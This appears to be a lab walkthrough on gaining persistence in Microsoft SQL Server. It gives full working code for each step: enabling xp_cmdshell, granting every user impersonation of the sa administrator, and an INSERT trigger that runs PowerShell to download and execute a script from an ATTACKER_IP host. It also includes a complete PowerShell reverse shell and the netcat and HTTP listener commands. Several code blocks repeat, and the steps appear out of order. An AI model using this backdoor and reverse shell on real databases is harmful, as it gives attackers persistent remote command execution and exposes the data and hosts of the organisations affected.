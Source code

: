 # xp\_cmdshell

```
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

* Simply put, triggers in MSSQL allow you to bind actions to be performed when specific events occur in the database. Those events can range from a user logging in up to data being inserted, updated or deleted from a given table. For this task, we will create a trigger for any `INSERT` into the `HRDB` database.

```
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

* After this, we must ensure that any website accessing the database can run `xp_cmdshell`.
* By default, only database users with the `sysadmin role` will be able to do so.
* Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the `sa user`, which is the default database administrator:
* Before creating the trigger, we must first reconfigure a few things on the database.
* First, we need to enable the `xp_cmdshell` stored procedure. `xp_cmdshell` is a stored procedure that is provided by default in any MSSQL installation and allows you to run commands directly in the system's console but comes **disabled by default.**
* To enable it, let's open `Microsoft SQL Server Management Studio 18`, available from the start menu.
* By default, the local Administrator account will have access to all DBs.
* Once logged in, click on the New Query button to open the query editor:
* Run the following SQL sentences to enable the "`Advanced Options`" in the MSSQL configuration, and proceed to enable `xp_cmdshell`.
* Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

* After all of this, we finally configure a trigger. We start by changing to the `HRDB` database:

```
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

* We will need to open two terminals to handle the connections involved in this exploit:

```
USE HRDB
```

* Our trigger will leverage `xp_cmdshell` to execute `Powershell` to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees table` of the `HRDB database`:

```
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

* Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

* We will need to open two terminals to handle the connections involved in this exploit:
* The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port `8000` for that.
* The second connection will be a reverse shell on port `4454` back to our attacker machine.

```
# AttackBox
python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 
 	
# AttackBox
nc -lvp 4454
Listening on 0.0.0.0 4454
```

* With all that ready, let's navigate to `http://MACHINE_IP/` and `insert` an employee into the web application.
* Since the web application will send an `INSERT` statement to the database, our `TRIGGER` will provide us access to the system's console.
